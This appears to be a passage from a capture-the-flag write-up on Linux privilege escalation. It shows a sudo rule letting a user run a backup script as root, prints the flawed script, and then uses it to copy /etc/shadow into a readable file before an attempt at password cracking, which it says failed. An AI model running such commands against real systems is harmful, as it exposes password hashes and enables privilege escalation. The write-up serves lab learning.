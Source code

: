We find:

```bash
User devuser may run the following commands on corpnet:
  (ALL) NOPASSWD: /usr/local/bin/backup.sh
```

This means `devuser` can run the script `/usr/local/bin/backup.sh` as **root**, without needing a password.

---

#### Analyzing `backup.sh`

```bash
#!/bin/bash
# Usage: ./backup.sh <filename>

if [ $# -eq 0 ]; then
  echo "Please provide a filename to backup"
  exit 1
fi

BACKUP_FILE="/tmp/backup_$(date +%F_%T)"
cp "$1" "$BACKUP_FILE"
chown devuser:devuser "$BACKUP_FILE"
chmod 644 "$BACKUP_FILE"
```

This script blindly copies any file passed to it, as **root**, and then changes the ownership to `devuser`, effectively allowing access to protected files.

####  Exploiting It

We can use this to read sensitive root-only files. For example:

```bash
sudo /usr/local/bin/backup.sh /etc/shadow
```

![pasted](./Pasted_image_20250507220110.png)

This copies `/etc/shadow` to a readable file in `/tmp`. From there, we attempt to crack the root password — but the cracking failed.

---

### 🏁 Capturing the Flag
